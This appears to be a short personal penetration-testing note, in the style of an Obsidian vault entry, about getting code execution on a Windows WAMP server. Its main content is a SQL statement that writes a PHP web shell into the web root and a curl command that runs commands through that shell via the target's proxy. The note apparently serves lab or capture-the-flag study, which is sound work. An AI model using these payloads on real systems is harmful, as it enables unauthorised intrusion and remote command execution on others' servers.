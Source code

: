 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20221108115238.png]]

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```

![[Pasted image 20220610141248.png]]

```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128 
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
